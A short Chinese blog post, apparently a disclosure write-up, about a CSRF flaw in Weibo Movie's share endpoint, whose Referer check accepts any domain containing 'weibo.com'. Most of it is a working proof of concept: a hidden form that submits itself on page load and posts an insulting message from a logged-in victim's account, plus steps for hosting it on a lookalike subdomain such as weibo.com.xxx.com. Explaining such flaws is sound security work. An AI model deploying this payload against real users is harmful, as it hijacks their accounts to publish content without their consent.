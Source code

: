 ## CSRF漏洞之你点我链接就会发一条微博

注：非本人发现，看到微博上一位大大在玩。

防范CSRF漏洞有两种方式，一种是生成表单的时候插入Token，提交的时候后端验证Token是否合法，另外一种就是验证请求的`Referer`是否来自自己的域名。微博电影上的分享内容到微博的接口采用的后面的方式，在服务端验证。然而，验证好像写错了，正确的姿势应该是验证域名的后缀吧，但微博的后台开发验证是：只要域名里有`weibo.com`就认为是合法的请求。

### POC

* test.html

```html
<div style="display: none;">
  <form action="http://movie.weibo.com/movie/web/ajax_sendweibo" method="post" name="wtf" 
      enctype="application/x-www-form-urlencoded">
    <input type="hidden" name="content" value="我是大傻逼"/>
    <input type="hidden" name="id" value="178924"/>
    <input type="hidden" name="star" value="5"/>
    <button type="submit"></button>
  </form>
</div>
<script>
window.onload = function() {document.wtf.submit();}
</script>
```

* 找个域名，设置一个子域，如：`weibo.com.xxx.com`

* 在已经登录了微博的浏览器里访问：http://weibo.com.xxx.com/test.html 。
* 也可以设置本地hosts，`127.0.0.1 weibo.com.xxx.com`，然后启动一个HTTP服务器，如：`python -m SimpleHTTPServer 80`
